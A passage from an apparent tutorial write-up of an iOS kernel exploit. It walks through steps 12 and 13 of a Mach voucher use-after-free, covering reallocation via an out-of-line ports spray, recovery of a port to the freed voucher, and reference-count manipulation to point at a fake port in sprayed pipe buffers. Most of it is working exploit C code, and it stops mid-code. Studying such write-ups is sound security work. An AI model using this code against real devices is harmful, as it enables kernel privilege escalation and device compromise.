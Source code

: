     	for (; messages_sent < message_count; messages_sent++) {
    		kern_return_t kr = mach_msg(
    				&msg->header,
    				MACH_SEND_MSG | MACH_MSG_OPTION_NONE,
    				(mach_msg_size_t) message_size,
    				0,
    				MACH_PORT_NULL,
    				MACH_MSG_TIMEOUT_NONE,
    				MACH_PORT_NULL);
    		if (kr != KERN_SUCCESS) {
    			ERROR("%s returned %d: %s", "mach_msg", kr, mach_error_string(kr));
    			break;
    		}
    	}
{% endhighlight %}
#### Step 12: Call thread_get_mach_voucher() to get a voucher port for the freed voucher

Using **thread_get_mach_voucher**, we can recover the voucher port for the freed voucher, and this will allow us to further manipulate the reference count of the voucher.

{% highlight c %}
    	// 12\. Once we've reallocated the voucher with an OOL ports allocation, the iv_refs field
    	// will overlap with the lower 32 bits of the pointer to base_port. If base_port's address
    	// is low enough, this tricks the kernel into thinking that the reference count is valid,
    	// allowing us to call thread_get_mach_voucher() without panicking. And since the OOL ports
    	// pattern overwrote the voucher's iv_port field with MACH_PORT_NULL,
    	// convert_voucher_to_port() will go ahead and allocate a fresh voucher port through which
    	// we can manipulate our freed voucher while it still overlaps our OOL ports.
    	kr = thread_get_mach_voucher(thread, 0, &uaf_voucher_port);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "c", kr, mach_error_string(kr));
    		ERROR("could not get a voucher port to the freed voucher; reallocation failed?");
    		fail();
    	}
    	if (!MACH_PORT_VALID(uaf_voucher_port)) {
    		ERROR("freed voucher port 0x%x is not valid", uaf_voucher_port);
    		fail();
    	}
    	INFO("recovered voucher port 0x%x for freed voucher", uaf_voucher_port);
{% endhighlight %}
#### Step 13: Modify the iv_refs to point to pipe buffers

Using the voucher port, we can modify the **iv_refs** value using the same vulnerability (reference leak this time) and hope that it points to our pipe buffers. If you recall from before, the **iv_refs** was actually pointing to the base port. So now the **iv_refs** pointer is incremented by **4MB** (**base_port_to_fake_port_offset**) in this case, and if you remember we sprayed about **16MB** of Pipe buffers, so the Port pointer should overlap somewhere within our sprayed Pipe buffers.

{% highlight c %}
    // 13\. Alright, we've pushed through the first risky part! We now have a voucher port that
    	// refers to a voucher that overlaps with our OOL ports spray. Our next step is to modify
    	// the voucher's iv_refs field using the reference counting bugs so that the ipc_port
    	// pointer it overlaps with now points into our pipe buffers. That way, when we receive the
    	// message, we'll get a send right to a fake IPC port object whose contents we control.
    	INFO("adding references to the freed voucher to change the OOL port pointer");
    	for (size_t i = 0; i < base_port_to_fake_port_offset; i++) {
    		voucher_reference(uaf_voucher_port);
    	}
    	kr = thread_set_mach_voucher(thread, MACH_PORT_NULL);
    	if (kr != KERN_SUCCESS) {
    		ERROR("could not clear thread voucher");
    		// This is a horrible fix, since ith_voucher still points to the freed voucher, but
    		// at least it'll make the OOL port pointer correct so the exploit can continue.
    		voucher_release(uaf_voucher_port);